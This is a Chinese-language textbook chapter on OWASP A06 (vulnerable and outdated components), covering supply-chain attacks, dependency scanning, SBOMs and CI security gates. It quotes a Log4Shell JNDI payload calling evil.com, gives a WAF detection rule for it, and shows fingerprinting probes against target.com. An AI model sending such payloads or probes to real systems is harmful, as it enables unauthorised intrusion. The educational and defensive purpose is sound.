



## 14.7 A06：脆弱和过时的组件（Vulnerable and Outdated Components）

现代软件开发已经从"全部自研"演变为"站在巨人肩膀上"。一个典型的 Node.js 项目在 `npm install` 之后，`node_modules` 目录下可能包含上千个包；一个 Java Spring Boot 应用的依赖树可以轻松超过 200 个 JAR 文件。这些组件中的任何一个存在已知漏洞，都可能成为攻击者突破整条防线的入口。OWASP Top 10 2021 将此风险单独列为 A06，正是因为供应链攻击在近年来呈爆发式增长——Synopsys 2024 年的报告显示，被审计的应用中有 **84%** 包含至少一个已知开源漏洞。

### 14.7.1 定义与本质

#### 14.7.1.1 什么是"脆弱和过时的组件"

OWASP 对 A06 的定义包含两个层面：

**脆弱的组件（Vulnerable Components）**：应用使用的第三方或开源组件中存在已被公开披露的安全漏洞（CVE），且该漏洞可能被利用来影响应用的保密性、完整性或可用性。

**过时的组件（Outdated Components）**：使用的组件版本已不再被维护者支持，或者已存在更新的安全版本但未被采用。过时的组件不等于"有漏洞"，但它们失去了获取安全补丁的能力，是一种潜在的脆弱性。

这两个概念的关系可以用一个简单的逻辑表达：



#### 14.7.1.2 为什么这个风险被单独列出

在 OWASP Top 10 2017 中，这项风险被称为"使用已知漏洞的组件（Using Components with Known Vulnerabilities）"，排名 A9。2021 版将其更名为 A06 并重新排序，原因包括：

1. **攻击频率激增**：供应链攻击从 2019 年到 2022 年增长了 **742%**（Sonatype 报告数据）
2. **影响范围扩大**：一次供应链攻击可以同时影响数以万计的下游应用
3. **防御难度高**：开发者通常不直接审计第三方代码，传统 SAST/DAST 工具无法覆盖
4. **CI/CD 加速了风险传播**：自动化流水线意味着一个恶意包可以在几分钟内部署到生产环境

#### 14.7.1.3 与其他 OWASP 类别的关系

A06 不是孤立存在的，它与多个 OWASP 类别有交叉：

| 关联类别 | 交叉点 |
|---------|--------|
| A02 加密机制失效 | 使用过时的加密库（如旧版 OpenSSL）导致加密降级 |
| A05 安全配置错误 | 组件的默认配置未被加固 |
| A08 软件和数据完整性失效 | 供应链攻击本质上是完整性问题 |
| A09 安全日志与监控失效 | 过时组件可能缺少审计日志能力 |

### 14.7.2 风险来源与攻击面分析

#### 14.7.2.1 已知 CVE 漏洞组件

这是最直接的风险：使用的组件版本存在已被公开的漏洞，且漏洞详情（甚至 PoC 利用代码）已可公开获取。

**关键概念——漏洞的"武器化窗口"**：从 CVE 公开到补丁发布、再到所有下游项目完成升级，存在一个时间窗口。攻击者在这个窗口内扫描使用旧版本的目标并实施攻击。NIST 的数据显示，CVE 公布后 **24 小时内**，针对该漏洞的扫描和利用尝试就会大量出现。

**典型案例——Log4Shell（CVE-2021-44228）**：

2021 年 12 月，Apache Log4j 2 被发现存在 JNDI 注入漏洞，CVSS 评分 10.0。这个漏洞的影响范围是灾难性的：

- Log4j 2 被全球 **数十亿** 设备和应用使用
- Minecraft 服务器、Apple iCloud、Twitter、Steam 等均受影响
- 攻击者只需发送一个包含 `${jndi:ldap://evil.com/a}` 的字符串即可触发远程代码执行
- 补丁发布后数月，仍有大量系统未完成升级

这个案例完美说明了组件漏洞的三个特征：**广泛使用**、**易于利用**、**修复滞后**。

#### 14.7.2.2 依赖链（传递依赖）漏洞

直接依赖的漏洞容易发现，但真正的隐患往往藏在依赖的依赖中。

以一个典型的前端项目为例：

```text
my-app
├── express@4.18.2          （直接依赖）
│   ├── body-parser@1.20.1
│   │   └── raw-body@2.5.1
│   │       └── bytes@3.1.2
│   ├── cookie@0.5.0
│   └── qs@6.11.0           ← 如果 qs 存在原型污染漏洞，你的应用也受影响
└── axios@1.6.0             （直接依赖）
    └── follow-redirects@1.15.3
        ← 如果 follow-redirects 存在 SSRF 漏洞，你的应用也受影响
```

npm 官方数据表明，平均每个 npm 包有 **79 个** 传递依赖。一个直接依赖的漏洞你可以快速定位并升级，但一个嵌套 5 层的传递依赖出了问题，你可能根本不知道它存在于你的项目中。

**检测传递依赖的方法**：

```bash
# npm: 查看完整依赖树
npm ls --all

# npm: 审计漏洞
npm audit

# Maven: 查看依赖树
mvn dependency:tree

# Gradle: 查看依赖树
gradle dependencies --configuration runtimeClasspath

# Python: 查看依赖树
pipdeptree

# Go: 查看依赖
go mod graph
```

#### 14.7.2.3 恶意包与供应链攻击

这是近年来增长最快的攻击方式。攻击者不再需要找到漏洞——他们直接在包管理器中植入恶意代码。

**供应链攻击的五种主要模式**：

**模式一：包劫持（Package Hijacking）**

攻击者获取流行包的维护权限（通过社会工程、账户接管或原作者放弃维护），然后在更新版本中注入恶意代码。

**真实案例——event-stream（2018 年 11 月）**

`event-stream` 是一个每周下载量超过 **200 万次** 的 npm 包。原作者 Dominic Tarr 将维护权限移交给了一个名为 `right9ctrl` 的新贡献者。该贡献者在获得权限后：

1. 添加了一个名为 `flatmap-stream` 的依赖
2. `flatmap-stream` 的 npm 包中包含了加密的恶意载荷
3. 恶意代码专门针对 `copay`（一款比特币钱包应用）
4. 它会窃取用户的加密货币私钥并发送到攻击者控制的服务器

**模式二：Typosquatting（域名仿冒）**

攻击者注册与流行包名称极其相似的包名，诱使开发者在安装时误拼。

常见手法：

```text
合法包名          恶意仿冒包名
─────────────────────────────────────
requests          requessts (多一个 s)
lodash            l0dash (0 替代 o)
beautifulsoup4    beautifusoup4 (缺少 l)
cross-env         crossenv (少一个 -)
colors            colorss (多一个 s)
```

**模式三：依赖混淆（Dependency Confusion）**

2021 年，安全研究员 Alex Birsan 发现了这种攻击方式。核心原理：

1. 企业内部使用私有 npm/PyPI 仓库托管内部包
2. 包管理器默认先从公共仓库查找
3. 攻击者在公共仓库注册同名但更高版本号的包
4. 包管理器自动从公共仓库拉取恶意包

Birsan 通过此方法成功渗透了 Apple、Microsoft、Tesla 等 **35 家** 大型企业的内部系统。

防御依赖混淆的配置示例：

```json
// .npmrc - 使用 scope 指定私有仓库
@mycompany:registry=https://npm.mycompany.com/
registry=https://registry.npmmirror.com/
```

```toml
# pyproject.toml - Python 使用私有源优先
[[tool.poetry.source]]
name = "private"
url = "https://pypi.mycompany.com/simple/"
priority = "supplemental"
```

**模式四：构建工具污染**

攻击者不直接攻击运行时依赖，而是攻击构建工具链中的包——测试框架、打包工具、代码转换器等。这些工具在 CI/CD 环境中拥有极高的权限，且通常不在运行时安全扫描的范围内。

**模式五：镜像投毒**

攻击者向公共镜像仓库上传恶意包，或者入侵镜像仓库的维护流程。Docker Hub 上的安全分析显示，超过 **51%** 的镜像包含已知高危漏洞。

#### 14.7.2.4 废弃与无人维护的组件

并非所有风险来自漏洞。一个组件如果已经停止维护，它就成了一个"定时炸弹"——当前没有已知漏洞，但未来发现的任何漏洞都不会被修复。

**判断组件是否废弃的信号**：

| 信号 | 具体表现 |
|------|---------|
| 仓库归档 | GitHub 仓库状态显示 "Archived" |
| 长期无提交 | 最后一次 commit 超过 2 年 |
| Issue 无人回复 | 大量 open issue 无维护者回应 |
| 依赖版本过旧 | 自身依赖的库版本非常陈旧 |
| 替代品出现 | 社区已推荐使用其他库替代 |
| 作者声明弃用 | README 中明确标注 deprecated |

**废弃组件的真实影响**：2020 年，多个使用 Python 2（已于 2020 年 1 月停止维护）的企业在 2021 年 Log4Shell 事件期间发现，他们的部分安全工具已无法正确运行，因为这些工具依赖的 Python 2 库不再被更新。

### 14.7.3 攻击手法深度剖析

#### 14.7.3.1 已知漏洞的自动化利用

攻击者利用组件漏洞的典型流程：



#### 14.7.3.2 供应链攻击的完整链路

以 `ua-parser-js` 事件（2021 年 10 月）为例，展示一次完整的供应链攻击：

1. **渗透阶段**：攻击者接管了 `ua-parser-js` 的 npm 账户（每周下载量 **800 万次**）
2. **植入阶段**：发布了三个恶意版本（0.7.29、0.8.0、1.0.0）
3. **载荷内容**：Linux 上安装加密货币挖矿程序，Windows 上安装密码窃取器
4. **传播阶段**：依赖该包的项目在 `npm install` 时自动下载恶意版本
5. **发现阶段**：安全社区在数小时后发现异常流量并通报
6. **清理阶段**：npm 团队撤销了恶意版本，但受影响机器仍需清理

#### 14.7.3.3 针对 SBOM 的逆向利用

讽刺的是，公开的软件物料清单（SBOM）也可能被攻击者利用：

1. 从公开的 SBOM 中获取目标使用的组件及版本列表
2. 在 CVE 数据库中搜索这些组件的已知漏洞
3. 针对未打补丁的漏洞构造利用代码

这意味着 SBOM 的安全管理同样重要——它应该被访问控制保护，而非完全公开。

### 14.7.4 检测与识别方法

#### 14.7.4.1 软件成分分析（SCA）

SCA（Software Composition Analysis）是检测组件漏洞的核心技术手段。SCA 工具通过以下方式工作：

1. **解析依赖清单**：读取 `package.json`、`pom.xml`、`requirements.txt`、`go.mod` 等文件
2. **构建依赖树**：递归解析所有传递依赖
3. **匹配漏洞数据库**：将组件版本与 CVE/NVD/GitHub Advisory 等数据库比对
4. **生成报告**：列出受影响的组件、漏洞详情、修复建议

**主流 SCA 工具对比**：

| 工具 | 类型 | 支持语言 | 免费额度 | 特色功能 |
|------|------|---------|---------|---------|
| **npm audit** | 内置 CLI | Node.js | 完全免费 | 集成在 npm 中，零配置 |
| **pip-audit** | CLI | Python | 完全免费 | Google 维护，轻量高效 |
| **OWASP Dependency-Check** | CLI/CI | Java/.NET/Python/Ruby | 完全免费 | OWASP 官方工具，NVD 数据库 |
| **Snyk** | SaaS/CLI | 20+ 语言 | 免费额度有限 | 修复建议精准，IDE 集成好 |
| **GitHub Dependabot** | 内置 | 多语言 | 公有仓库免费 | 自动创建修复 PR |
| **Trivy** | CLI | 多语言+容器 | 完全免费 | 同时扫描容器镜像和文件系统 |
| **Grype** | CLI | 多语言 | 完全免费 | Anchore 出品，速度快 |
| **Renovate** | Bot | 多语言 | 免费 | 自动化依赖更新 PR |

**实际使用示例**：

```bash
# npm audit - 最简单的依赖审计
npm audit
npm audit --json | jq '.vulnerabilities | to_entries[] | select(.value.severity == "critical")'

# pip-audit - Python 依赖审计
pip install pip-audit
pip-audit --desc --format json

# OWASP Dependency-Check
dependency-check --project "MyApp" --scan ./src --format HTML

# Trivy - 扫描文件系统中的漏洞
trivy fs --security-checks vuln .
trivy fs --severity HIGH,CRITICAL .

# Grype - 快速扫描
grype dir:. --only-fixed  # 只显示有修复版本的漏洞
```

#### 14.7.4.2 运行时组件指纹识别

SCA 依赖源码中的清单文件。但有些场景需要从运行时识别组件：

**被动指纹识别**：

通过 HTTP 响应头、错误页面、默认页面等识别后端框架和组件版本：

```bash
# 识别 Web 服务器及版本
curl -I https://target.com | grep -i "server:"
# Server: Apache/2.4.29 (Ubuntu)

# 使用 Wappalyzer 或 WhatWeb 进行技术栈识别
whatweb https://target.com

# Shodan 搜索特定组件版本
# https://www.shodan.io/search?query=product%3A%22Apache+Log4j%22+version%3A%222.14%22
```

**主动探测**：

发送特定请求触发组件特有的错误信息或行为：

```bash
# 触发 Spring Boot 错误页面确认版本
curl https://target.com/nonexistent-path

# 探测 Django 版本（通过 CSRF token 格式）
curl -c cookies.txt https://target.com/login

# 探测 WordPress 及插件版本
wpscan --url https://target.com --enumerate vp
```

#### 14.7.4.3 容器镜像安全扫描

现代应用大量以容器镜像形式部署，镜像中的组件漏洞同样需要检测：

```bash
# 使用 Trivy 扫描 Docker 镜像
trivy image nginx:1.20
trivy image --severity HIGH,CRITICAL myapp:latest

# 使用 Grype 扫描
grype nginx:1.20

# 使用 Docker Scout（Docker 官方）
docker scout cves myapp:latest

# 使用 Syft 生成 SBOM
syft myapp:latest -o spdx-json > sbom.json
```

### 14.7.5 防护措施与最佳实践

#### 14.7.5.1 建立依赖管理规范

**第一层：策略制定**

组织需要建立明确的依赖引入和更新策略：

```text
依赖管理策略（示例）
────────────────────────────────────────
1. 引入新依赖前的检查清单：
   □ 该包的最近维护时间（< 6 个月为佳）
   □ GitHub stars / 下载量 / 社区活跃度
   □ 是否有已知未修复的 CVE
   □ 依赖树中是否包含高风险包
   □ 是否有更成熟/更轻量的替代品
   □ 许可证是否与项目兼容

2. 版本锁定策略：
   □ 生产环境必须使用 lock 文件（package-lock.json / poetry.lock 等）
   □ 版本范围使用精确版本或补丁范围（~1.2.3）
   □ 禁止在 lock 文件中使用 latest 或 *

3. 更新节奏：
   □ 安全补丁：24 小时内评估，72 小时内部署
   □ 次要版本：每月评估一次
   □ 主要版本：每季度评估，制定迁移计划
```

**第二层：版本锁定与可复现构建**

```bash
# npm: 使用 package-lock.json 确保可复现构建
npm ci  # 而非 npm install，严格按 lock 文件安装

# pip: 生成精确版本的 requirements.txt
pip freeze > requirements.txt

# 或使用 pip-tools 管理
pip-compile requirements.in  # 生成 requirements.txt

# Go: go.sum 提供校验和
go mod verify  # 验证依赖完整性
```

**第三层：依赖清理**

定期清理不再使用的依赖，减少攻击面：

```bash
# npm: 检查未使用的依赖
npx depcheck

# Python: 检查未使用的依赖
pip install pip-autoremove
pip-autoremove -y

# 或使用更现代的工具
pip install vulture
vulture src/ --min-confidence 80
```

#### 14.7.5.2 CI/CD 中的安全门禁

将组件安全检查集成到 CI/CD 流水线中，确保不安全的依赖不会进入生产环境：

```yaml
# GitHub Actions 示例：依赖审计门禁
name: Security Audit
on:
  push:
    branches: [main]
  pull_request:
    branches: [main]
  schedule:
    - cron: '0 8 * * 1'  # 每周一早上8点执行

jobs:
  audit:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      # Node.js 依赖审计
      - name: npm audit
        run: |
          npm audit --audit-level=high
          if [ $? -ne 0 ]; then
            echo "::error::发现高危依赖漏洞，请修复后重新提交"
            exit 1
          fi

      # 使用 Trivy 扫描
      - name: Trivy vulnerability scan
        uses: aquasecurity/trivy-action@master
        with:
          scan-type: 'fs'
          severity: 'HIGH,CRITICAL'
          exit-code: '1'  # 发现高危漏洞时 CI 失败

      # 使用 Snyk 深度扫描
      - name: Snyk security test
        uses: snyk/actions@master
        env:
          SNYK_TOKEN: ${{ secrets.SNYK_TOKEN }}
        with:
          args: --severity-threshold=high
```

**安全门禁的分级策略**：

| 漏洞严重度 | CI/CD 行为 | 响应时间 |
|-----------|-----------|---------|
| Critical（CVSS ≥ 9.0） | 立即阻断合并，触发告警 | 24 小时内修复 |
| High（CVSS 7.0-8.9） | 阻断合并 | 72 小时内修复 |
| Medium（CVSS 4.0-6.9） | 允许合并但记录告警 | 下个迭代修复 |
| Low（CVSS < 4.0） | 记录到待办清单 | 季度评估 |

#### 14.7.5.3 软件物料清单（SBOM）

SBOM（Software Bill of Materials）是应用中所有软件组件的结构化清单。它类似于食品的成分表——让你清楚知道"里面有什么"。

**SBOM 的标准格式**：

```json
// SPDX 格式示例（简化版）
{
  "spdxVersion": "SPDX-2.3",
  "name": "my-web-app",
  "packages": [
    {
      "name": "lodash",
      "versionInfo": "4.17.21",
      "downloadLocation": "https://registry.npmjs.org/lodash/-/lodash-4.17.21.tgz",
      "checksums": [
        {
          "algorithm": "SHA256",
          "checksumValue": "..."
        }
      ],
      "licenseDeclared": "MIT"
    }
  ],
  "relationships": [
    {
      "spdxElementId": "SPDXRef-my-web-app",
      "relationshipType": "DEPENDS_ON",
      "relatedSpdxElement": "SPDXRef-lodash"
    }
  ]
}
```

**生成 SBOM 的工具**：

```bash
# Syft - 从容器镜像或文件系统生成 SBOM
syft myapp:latest -o spdx-json > sbom-spdx.json
syft myapp:latest -o cyclonedx-json > sbom-cdx.json

# CycloneDX 官方工具
# Node.js
npx @cyclonedx/cyclonedx-npm --output-file sbom.json

# Python
pip install cyclonedx-bom
cyclonedx-py -i requirements.txt -o sbom.json

# Java (Maven)
mvn org.cyclonedx:cyclonedx-maven-plugin:makeBom
```

**SBOM 在组织中的最佳实践**：

1. **构建时生成**：在 CI/CD 流水线中自动生成 SBOM，与制品一起存储
2. **漏洞关联**：将 SBOM 输入漏洞扫描工具，实现自动化漏洞告警
3. **供应商要求**：要求第三方供应商提供 SBOM，评估供应链风险
4. **持续监控**：新的 CVE 公布后，通过 SBOM 快速排查受影响的系统

#### 14.7.5.4 自动化依赖更新

手动更新依赖容易遗漏且效率低下。自动化工具可以持续监控并创建更新 PR：

**Renovate 配置示例**（`renovate.json`）：

```json
{
  "$schema": "https://docs.renovatebot.com/renovate-schema.json",
  "extends": [
    "config:base",
    ":automergeMinor",
    ":automergePatch"
  ],
  "vulnerabilityAlerts": {
    "enabled": true,
    "labels": ["security"]
  },
  "packageRules": [
    {
      "matchUpdateTypes": ["major"],
      "automerge": false,
      "labels": ["major-update"]
    },
    {
      "matchPackagePatterns": ["*"],
      "matchCurrentVersion": "< 1.0.0",
      "rangeStrategy": "pin"
    }
  ],
  "schedule": ["before 9am on monday"]
}
```

**Dependabot 配置示例**（`.github/dependabot.yml`）：

```yaml
version: 2
updates:
  - package-ecosystem: "npm"
    directory: "/"
    schedule:
      interval: "weekly"
    open-pull-requests-limit: 10
    labels:
      - "dependencies"
      - "security"
    reviewers:
      - "security-team"
    # 安全更新优先
    security-updates-only: false

  - package-ecosystem: "docker"
    directory: "/"
    schedule:
      interval: "weekly"

  - package-ecosystem: "github-actions"
    directory: "/"
    schedule:
      interval: "monthly"
```

#### 14.7.5.5 运行时防护与 WAF

当无法立即升级组件时，运行时防护可以作为临时缓解措施：

```regex
# Log4Shell 临时缓解方案示例

# 方案一：移除 JndiLookup 类（推荐临时方案）
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

# 方案二：设置 JVM 属性
-Dlog4j2.formatMsgNoLookups=true

# 方案三：WAF 规则拦截
# ModSecurity 规则示例
SecRule ARGS|ARGS_NAMES|REQUEST_URI|REQUEST_HEADERS \
  "@rx (?i)\$\{jndi:(ldap|ldaps|rmi|dns|iiop|corba|nds|http)://" \
  "id:1001,phase:2,deny,status:403,log,msg:'Log4Shell attempt blocked'"
```

### 14.7.6 各语言生态的依赖安全工具链

#### 14.7.6.1 Node.js 生态

```text
检测工具：
├── npm audit / yarn audit / pnpm audit    — 内置漏洞审计
├── Socket Security (@socketsecurity/cli)   — 检测恶意行为模式
├── Snyk CLI                                — 综合安全扫描
└── npm-consider                            — 引入依赖前的风险评估

防护配置：
├── .npmrc                                  — 指定私有 registry
├── package-lock.json                       — 版本锁定
├── .npmauditrc                             — 审计规则配置
└── engines 字段                            — 限定 Node.js 版本范围
```

#### 14.7.6.2 Python 生态

```text
检测工具：
├── pip-audit          — Google 维护的漏洞审计
├── safety             — PyUp.io 漏洞数据库
├── pipdeptree         — 依赖树可视化
└── bandit             — 代码安全分析（非 SCA 但互补）

防护配置：
├── requirements.txt   — 版本锁定
├── poetry.lock        — Poetry 版本锁定
├── Pipfile.lock       — Pipenv 版本锁定
└── constraints.txt    — 约束文件
```

#### 14.7.6.3 Java 生态

```text
检测工具：
├── OWASP Dependency-Check    — 开源 SCA 标准
├── Snyk Maven/Gradle Plugin  — CI 集成
├── Dependency-Track           — SBOM 管理平台
└── Maven Enforcer Plugin      — 构建时规则强制

防护配置：
├── Maven: <dependencyManagement> + BOM
├── Gradle: dependencyLocking + constraints
├── versions-maven-plugin      — 检查依赖更新
└── versions:display-dependency-updates
```

#### 14.7.6.4 Go 生态

```text
检测工具：
├── govulncheck       — Go 官方漏洞检查工具
├── go mod verify     — 验证依赖完整性
├── Nancy             — Sonatype 的 Go 依赖审计
└── Trivy             — 支持 go.sum 扫描

防护配置：
├── go.mod / go.sum   — 版本锁定 + 校验和
├── Go workspace      — 多模块依赖管理
└── vendor/ 目录      — 依赖本地化
```

### 14.7.7 组织级供应链安全管理

#### 14.7.7.1 安全治理框架



#### 14.7.7.2 供应商风险管理

当使用第三方商业软件或外包开发时，供应链安全管理需要延伸到组织边界之外：

1. **合同要求**：在采购合同中要求供应商提供 SBOM 并承诺安全更新 SLA
2. **准入评估**：对引入的第三方组件进行安全评估，包括代码审计（如有源码）
3. **持续监控**：订阅供应商的安全公告，在漏洞披露后第一时间响应
4. **退出计划**：为关键依赖制定替换方案，避免单一供应商锁定

#### 14.7.7.3 事件响应流程

当发现组件漏洞时的标准化响应流程：

```text
漏洞响应流程（SOP）
──────────────────────────────────
1. 发现阶段（0-2 小时）
   ├── SCA 工具自动告警 / 安全公告订阅 / 外部通报
   ├── 确认漏洞影响范围（哪些应用受影响）
   └── 评估可利用性（是否在暴露面内）

2. 评估阶段（2-4 小时）
   ├── CVSS 评分 + 业务影响评估
   ├── 确认是否有公开的 PoC / 在野利用
   └── 确定修复优先级（P0/P1/P2/P3）

3. 缓解阶段（4-24 小时）
   ├── 如有补丁：测试 → 灰度 → 全量部署
   ├── 如无补丁：应用 WAF 规则 / 配置缓解 / 组件降级
   └── 通知相关团队和利益方

4. 修复阶段（24-72 小时）
   ├── 部署正式修复版本
   ├── 验证漏洞已被消除
   └── 清理临时缓解措施

5. 复盘阶段（1 周内）
   ├── 记录事件时间线
   ├── 分析根因（为什么没有更早发现）
   └── 改进流程（更新 SCA 规则 / 调整监控频率）
```

### 14.7.8 常见误区与纠正

| 误区 | 真相 |
|------|------|
| "我们只用了几个主流库，应该没问题" | Log4j、OpenSSL、Spring 都是"主流库"，照样出过灾难性漏洞 |
| "锁定了版本就安全了" | 版本锁定只保证可复现构建，不保证安全；你锁定的版本可能本来就有漏洞 |
| "CVE 评分低就不用管" | 低分 CVE 可能被链式组合利用；某些低分漏洞在特定上下文中影响更大 |
| "扫描通过就代表安全" | SCA 只能发现已知漏洞；零日漏洞和逻辑缺陷需要代码审计 |
| "内部系统不需要关注供应链安全" | 依赖混淆攻击专门针对内部系统；内网不等于安全 |
| "开源代码等于安全代码" | 开源只是代码可见，不代表有人在审计；很多流行包只有极少数人在维护 |
| "容器化部署就隔离了风险" | 容器镜像中的组件漏洞同样需要扫描和修复 |
| "只要不直接引入就不会受影响" | 传递依赖是最大的盲区；一个嵌套 5 层的依赖出了问题你可能完全不知道 |

### 14.7.9 前沿趋势与进阶话题

#### 14.7.9.1 SLSA 供应链安全框架

SLSA（Supply-chain Levels for Software Artifacts）是由 Google 主导的供应链安全框架，定义了四个安全级别：

| 级别 | 要求 | 保护目标 |
|------|------|---------|
| SLSA 1 | 构建过程有文档记录 | 防止非授权篡改 |
| SLSA 2 | 使用版本控制和托管构建服务 | 防止来源篡改 |
| SLSA 3 | 构建平台有安全审计 | 麻烦程度更高的攻击 |
| SLSA 4 | 双人审查 + 可复现构建 | 防止内部威胁和高级攻击 |

#### 14.7.9.2 签名与验证

Sigstore 项目提供了无需管理密钥的签名和验证方案：

```bash
# 使用 cosign 对容器镜像签名
cosign sign --key cosign.key myregistry.io/myapp:v1.0

# 验证镜像签名
cosign verify --key cosign.pub myregistry.io/myapp:v1.0

# Keyless 签名（使用 OIDC 身份）
cosign sign myregistry.io/myapp:v1.0
# 验证
cosign verify --certificate-identity=user@example.com \
  --certificate-oidc-issuer=https://accounts.google.com \
  myregistry.io/myapp:v1.0
```

#### 14.7.9.3 AI 辅助的依赖风险评估

新兴工具开始使用 AI 来评估依赖包的风险，超越简单的 CVE 匹配：

- **行为分析**：检测包是否在安装时执行异常脚本（如访问环境变量、发起网络请求）
- **代码相似度**：检测新版本中是否引入了可疑的代码变更
- **维护者信誉**：基于历史行为模式评估维护者的可信度
- **异常检测**：识别版本号跳跃、下载量异常波动等可疑信号

#### 14.7.9.4 可复现构建

可复现构建（Reproducible Builds）确保任何人都可以用相同的源码和构建环境产出二进制一致的制品。这是供应链安全的终极防线之一：

- **Debian**：已实现约 95% 的包可复现构建
- **NixOS**：所有包默认可复现
- **Go**：`go build` 在大多数情况下产出可复现的二进制
- **挑战**：时间戳、构建路径、随机种子等因素影响二进制一致性

### 14.7.10 实战练习

#### 练习一：依赖审计

对一个现有项目执行完整的依赖审计流程：

```bash
# 1. 克隆一个示例项目
git clone https://github.com/nicehash/nicehash-quickminer
cd nicehash-quickminer

# 2. 使用 npm audit 检查
npm audit

# 3. 使用 Trivy 深度扫描
trivy fs . --severity HIGH,CRITICAL

# 4. 生成 SBOM
syft dir:. -o cyclonedx-json > sbom.json

# 5. 分析结果并制定修复计划
cat sbom.json | jq '.components[] | select(.name == "lodash")'
```

#### 练习二：模拟依赖混淆攻击

在安全的测试环境中体验依赖混淆攻击的原理：

```bash
# 注意：仅在隔离的测试环境中进行！

# 1. 创建一个模拟的内部包
mkdir test-confusion && cd test-confusion
echo '{"name": "@internal/utils", "version": "1.0.0"}' > package.json
npm pack

# 2. 观察包管理器的解析行为
npm config set registry https://registry.npmjs.org/
npm install @internal/utils  # 从公共仓库查找 → 失败

# 3. 配置私有 registry 防御
echo '@internal:registry=https://npm.mycompany.com/' > .npmrc
```

#### 练习三：CI/CD 安全门禁搭建

为一个示例项目配置完整的依赖安全流水线：

```yaml
# 任务：为以下项目配置 GitHub Actions 安全审计
# 要求：
# 1. 每次 PR 自动运行 npm audit
# 2. 使用 Trivy 扫描容器镜像
# 3. 高危漏洞阻断合并
# 4. 每周生成 SBOM 并归档
```

### 14.7.11 本节小结

| 维度 | 核心要点 |
|------|---------|
| 风险本质 | 第三方组件的漏洞 = 你的漏洞，攻击者不关心代码是谁写的 |
| 攻击向量 | 已知 CVE、传递依赖、恶意包、依赖混淆、构建工具污染 |
| 防御层次 | 策略制定 → 版本锁定 → SCA 扫描 → CI/CD 门禁 → 运行时防护 |
| 关键工具 | npm audit、Snyk、Trivy、OWASP Dependency-Check、Renovate |
| 治理框架 | SBOM + SLSA + 签名验证 + 供应商管理 |
| 响应流程 | 发现 → 评估 → 缓解 → 修复 → 复盘 |
